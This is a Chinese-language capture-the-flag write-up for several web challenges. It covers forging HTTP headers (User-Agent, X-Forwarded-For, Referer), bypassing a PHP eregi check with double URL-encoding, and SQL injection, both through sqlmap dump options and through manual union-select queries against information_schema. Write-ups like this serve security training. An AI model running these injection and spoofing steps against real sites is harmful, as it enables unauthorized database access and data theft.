 ## 猫抓老鼠

检查请求头,发现 `content-row: MTU0Nzk5MTA1OQ==`
输入得到Flag: `KEY: #WWWnsf0cus_NET#`

## 头有点大

根据提示,抓包
伪造.NET 浏览器 国籍
修改为
```
GET /sHeader/ HTTP/1.1
Host: ctf5.shiyanbar.com
User-Agent: Mozilla/5.0 (Windows NT 6.1/.NET CLR 9.9; Win64; x64; rv:64.0) Gecko/20100101 IE
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-gb,en;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: Hm_lvt_34d6f7353ab0915a4c582e4516dffbc3=1546692582; Hm_cv_34d6f7353ab0915a4c582e4516dffbc3=1*visitor*185270%2CnickName%3Affdy; Hm_lpvt_34d6f7353ab0915a4c582e4516dffbc3=1547962050
Upgrade-Insecure-Requests: 1
```
GO,得到Flag: The key is:HTTpH34der

## 貌似有点难

查看代码,发现要将IP伪装为1.1.1.1
在伪造IP后响应中提示还要伪造跳转网页
抓包
伪造IP 跳转网页
修改为
```
GET /phpaudit/ HTTP/1.1
Host: ctf5.shiyanbar.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Forwarded-For: 1.1.1.1 ##IP
Referer: https://www.google.com  ##跳转网页
Connection: close
Cookie: Hm_lvt_34d6f7353ab0915a4c582e4516dffbc3=1546692582; Hm_cv_34d6f7353ab0915a4c582e4516dffbc3=1*visitor*185270%2CnickName%3Affdy; Hm_lpvt_34d6f7353ab0915a4c582e4516dffbc3=1547962050
Upgrade-Insecure-Requests: 1
```
得到Flag: Key is SimCTF{daima_shengji}

## PHP大法
进入链接,看见源码
```php
<?php
if(eregi("hackerDJ",$_GET[id])) { #比较id和字符,如果相等返回true
  echo("<p>not allowed!</p>");
  exit();
}

$_GET[id] = urldecode($_GET[id]); #对id进行url解密
if($_GET[id] == "hackerDJ") 如果id等于字符,得到Flag
{
  echo "<p>Access granted!</p>";
  echo "<p>flag: *****************} </p>";
}
?>


<br><br>
Can you authenticate to this website?
```
分析代码发现应对字符进行URL编码,但需要加密两次,因为浏览器会解密一次
网上的在线编码一般不会处理英文,用这个[网站](http://tool.bugku.com/safe/url.php)
GET 提交,得到 Flag: DUTCTF{PHP_is_the_best_program_language}

## 看起来有点简单!
Sql 注入题,直接用 Sqlmap 就能搞定

1. `--current-db` 发现库名为 my_db
2. `-D my_db --tables` 发现表名为 thiskey
3. `-D my_db -T thiskey --columns` 发现字段名为 k0y
4. `-D my_db -T thiskey -C k0y --dump` 得到Flag :  whatiMyD91dump

手工注入: 

1. `id=1'` 报错发现数据库类型为 MySQL 
2. `id=1 and 1=1` 与 `id=1 and 1=2` 回显不同,判断存在注入点
3. `id=1 order by 1` 3 的时候报错,说明字段数为 2
4. `id=1 union select 1,schema_name  from information_schema.schemata` 查询数据库名称发现 my_db 和 test 两个数据库
5. `id=1 union select 1,table_name from information_schema.tables where table_schema=my_db` 查询数据库中的表名 thiskey
6. `id=1 union select 1,column_name from information_schema.columns where table_schema='my_db'` 查询表中字段名,发现 k0y
7. `id=1 union select 1,k0y from thiskey` 得到Flag : whatiMyD91dump
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTkxMjk1NTUwOCwtOTE0ODc4MTAyLDE5MD
QxODAxLC0xODMzMjA4MzkyLDQzMDExMzI0NiwtMjYyMzQ2NzY4
LDc0MjYyMzk4MCwtMjkwMjc3NzU4LDE4MDAyNjI3NjMsLTgxNT
gwNTg3OCwxODcxODgwODE0LDQyMjk2ODEzLDQxMDc4NzQ2NSwt
MTIxNDQ1OTgwOF19
-->